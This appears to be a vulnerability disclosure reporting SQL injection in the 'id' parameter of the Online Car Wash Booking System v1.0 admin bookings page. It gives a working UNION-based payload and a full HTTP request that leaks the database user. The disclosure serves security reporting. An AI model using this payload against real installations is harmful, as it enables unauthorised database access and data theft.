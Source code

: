 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/admin/?page=bookings/view_details&id=

Vulnerability location: /ocwbs/admin/?page=bookings/view_details&id=, id

[+] Payload: /ocwbs/admin/?page=bookings/view_details&id=-3%27%20union%20select%201,user(),3,4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /ocwbs/admin/?page=bookings/view_details&id=-3%27%20union%20select%201,user(),3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/169299644-dae0ed6e-405d-4e38-ac42-52dc09089418.png)

![image](https://user-images.githubusercontent.com/54017627/169299572-8b78dd13-4621-482f-9470-f62ecfbe908e.png)
